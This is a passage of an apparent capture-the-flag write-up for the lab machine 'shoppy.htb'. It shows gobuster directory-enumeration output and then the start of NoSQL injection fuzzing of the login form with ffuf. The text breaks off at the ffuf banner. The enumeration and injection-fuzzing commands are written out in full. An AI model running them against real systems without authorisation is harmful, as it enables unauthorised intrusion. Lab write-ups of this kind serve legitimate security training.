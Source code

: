 ```
 gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/19 10:39:11 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/LogIn                (Status: 200) [Size: 1074]
/LOGIN                (Status: 200) [Size: 1074]
Progress: 220367 / 220561 (99.91%)===============================================================
2022/12/19 10:44:46 Finished
===============================================================
```

- Go to `http://shoppy.htb/login`, and test it a little bit.
- We now try SQL injection

## SQL Injection

- Add some special characters, `'"()$` to our payload. And we found out that it responded with gateway timeout. It could be a sign of SQL injection by syntax error.

- Run auto injection test.

```
$ ffuf -u http://shoppy.htb/login -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'                                                                                                                                                             130 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://shoppy.htb/login
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/Databases/NoSQL.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
```